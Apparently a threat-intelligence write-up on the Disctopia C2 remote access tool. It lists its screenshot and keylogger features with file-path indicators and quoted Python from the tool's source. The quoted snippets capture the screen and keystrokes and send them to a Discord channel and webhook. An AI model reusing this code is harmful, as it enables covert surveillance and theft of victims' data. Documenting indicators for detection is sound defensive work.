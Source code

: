 ### Take Screenshots

- Description: Take a screenshot of the agents screen
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L221
- Indicators:
  - Save the screenshot to the following location: `%temp%\s.png`

  ```python
  .....
  try:
    Screenshot = pyautogui.screenshot()
    path = os.environ["temp"] +"\\s.png"
    Screenshot.save(path)
    now = datetime.now()
    await channel.send(f"**Agent #{ID}*- | Screenshot `{now.strftime('%d/%m/%Y %H:%M:%S')}`", file=discord.File(path))
    os.remove(path)
    my_embed = discord.Embed(title=f"Got screenshot from Agent#{ID}", color=0x00FF00)
  .....
  ```

### Keylogger

- Description: Log keystrokes
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L242
- Indicators:
  - Write files to the following location: `%temp%\report.txt`

  ```python
  def report_to_webhook(self):
    flag = False
    webhook = DiscordWebhook(url=self.webhook, username="Keylogger")
    if len(self.log) > 2000:
        flag = True
        path = os.environ["temp"] + "\\report.txt"
        with open(path, 'w+') as file:
            file.write(f"Keylogger Report | Agent#{self.id} | Time: {self.end_dt}\n\n")
            file.write(self.log)
        with open(path, 'rb') as f:
            webhook.add_file(file=f.read(), filename='report.txt')
    else:
        embed = DiscordEmbed(title=f"Keylogger Report | Agent#{self.id} | Time: {self.end_dt}", description=self.log)
        webhook.add_embed(embed)    
    webhook.execute()
    if flag:
        os.remove(path)
  ```
